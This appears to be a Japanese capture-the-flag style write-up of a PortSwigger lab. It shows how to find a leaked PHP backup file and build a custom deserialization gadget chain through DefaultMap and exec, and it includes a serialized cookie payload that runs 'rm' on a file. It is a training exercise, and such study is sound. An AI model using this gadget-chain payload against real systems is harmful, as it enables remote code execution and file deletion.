 # PHP 逆シリアル化用のカスタム ガジェット チェーンの開発

以下のハッキングラボを実施します  
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization  
このラボでは、シリアル化ベースのセッション メカニズムを使用します。カスタム ガジェット チェーンをデプロイすると、その安全でない逆シリアル化を悪用してリモート コード実行を実現できます。ラボを解決するには、morale.txtCarlos のホーム ディレクトリからファイルを削除します。

- 1. Burp Suite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. ログイン後の GET /my-account リクエストを send to repeater します
- 5. クッキーを inspector で見ると base64 でエンコーディングされている PHP オブジェクトであることが分かります

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zvr3l2cfhmo0l2hghpuauezslcuj5lu5";}
```

- 6. リクエストのレスポンスに以下のコメントが残っています

```
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```

- 7. GET /cgi-bin/libs/CustomTemplate.php HTTP/2 を送信すると、ファイルの中身はないようです
- 8. vi で作成されるバックアップファイルにアクセスすると中身が見れます。GET /cgi-bin/libs/CustomTemplate.php~ HTTP/2

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

- 9. PHP は分からないが、ファイルの中にはコンストラクタで callback 関数を受け取る DefaultMap クラスがあるので実行コマンドを渡す。  
     Product クラスの desc フィールドに実行引数を入れてやれば、Product のコンストラクタが呼ばれたタイミングで exec OS コマンドが実行できる

```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

- 10. 上記コードを PHP オブジェクトでシリアル化する

```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}
```

- 11. これを Base64 および URL エンコーディングしてクッキーにセットするとユーザーが削除される
